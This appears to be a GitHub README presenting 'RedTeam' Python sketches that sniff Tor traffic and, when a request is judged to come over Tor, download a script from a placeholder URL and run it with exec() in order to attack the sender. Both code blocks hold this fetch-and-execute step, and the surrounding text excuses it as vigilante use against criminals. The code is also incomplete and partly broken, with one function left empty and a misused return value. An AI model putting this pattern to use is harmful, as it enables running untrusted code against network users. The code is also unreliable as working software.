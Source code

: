 # Feuerteufel
###### RedTeam Script Examples (EDU) by Mr.Chess - simple codings for 'Offensive Security' (updated 5/2023)

# Tor Traffic Monitoring Script

This script monitors and intercepts Tor traffic to detect and handle malicious activity. It utilizes the Scapy and Stem libraries to analyze network packets and interact with the Tor network.

## Features

- Monitors and intercepts Tor traffic in real-time.
- Detects malicious traffic based on specified keywords.
- Executes an external script for further analysis or actions like attacks
- Excludes malicious Tor relays from the circuit.

## Prerequisites

- Python 3.x
- Scapy library (`pip install scapy`)
- Stem library (`pip install stem`)

## Usage

1. Set the desired `.onion` address to monitor in the `onion_address` variable.
2. Customize the keywords for detecting malicious traffic in the `MaliciousTrafficListener` class.
3. Run the script and observe the output for detected malicious traffic.
4. Customize the `intercept_api_requests` function to handle intercepted API requests.
5. Adjust the local address or URL of the external script as needed.
6. Execute the `exclude_malicious_relays` function to add malicious relays to the circuit blacklist.

## Important Note

Executing code fetched from the internet or local sources can be risky. 
Ensure that you trust the source and contents of the external script before loading and executing it.

## License

[MIT License](LICENSE)

## Acknowledgements

- This script utilizes the Scapy and Stem libraries.
- Thanks to the open-source community for their contributions.

## Contact

For any questions or feedback, please contact:

Your Name
Email: your-email@example.com




































A creative small Python script that intercepts API requests and, when accessed through the Tor network, loads and runs an external script from a specified URL to Fuck them!
However, keep in mind that this is a highly risky and potentially illegal activity. Use at your own risk and only against crime and child abuse!
## Sorry cant explane all or you know what can be!

## WARNING: READ CAREFULLY! !!! DANGER !!!
This Black Python script example is intended for use by security professionals and developers only. It is not intended for malicious purposes, and I cannot be held responsible for any misuse of this code. If you use this tool for illegal or unethical purposes, you alone will be held responsible for any consequences that may arise, including legal and ethical issues.

Please see [SherlocksHome](https://github.com/VolkanSah/SherlocksHome/) & [This](https://github.com/VolkanSah/playing-with-scapy-and-stem) to understand logic 😅

### Be aware that attempting to bypass security measures is likely illegal and unethical!
Idea:
```python
import requests

def intercept_api_requests(request):
    if check_if_accessed_over_tor(request):
        external_script_url = "https://example.com/external_script.py"
        response = requests.get(external_script_url)
        if response.status_code == 200:
            exec(response.text)
        else:
            print("Failed to load the external script.")

def check_if_accessed_over_tor(request):
    # Implement your logic to detect if the request is coming from the Tor network
    # This might involve inspecting the request headers or analyzing network traffic

# Register the interceptor function to intercept API requests
register_interceptor(intercept_api_requests)
```


Example:
```python
from scapy.all import *
from stem import Signal
from stem.control import Controller
import requests

def check_if_tor_traffic(packet):
    if packet.haslayer(TCP) and packet[TCP].dport == 443:
        with Controller.from_port(port = 9051) as controller:
            controller.authenticate()
            if controller.get_info("address") == packet[IP].dst:
                return True
    return False

def sniff_packets():
    packets = sniff(filter="tcp and (port 9050 or port 9051)", prn=check_if_tor_traffic)

def intercept_api_requests(request):
    if sniff_packets():
        # This is where you would load and execute your external script.
        # Remember that executing code fetched from the internet can be risky.
        external_script_url = "https://example.com/external_script.py"
        response = requests.get(external_script_url)
        if response.status_code == 200:
            exec(response.text)
        else:
            print("Failed to load the external script.")
``` 

## issues
Issues to this script are not accepted as it is intended for educational purposes only and not for production use.

### Thank you for your support!
- If you appreciate my work, please consider [becoming a 'Sponsor'](https://github.com/sponsors/volkansah), giving a :star: to my projects, or following me. 
### Copyright
- [VolkanSah on Github](https://github.com/volkansah)
- [Developer Site](https://volkansah.github.io)

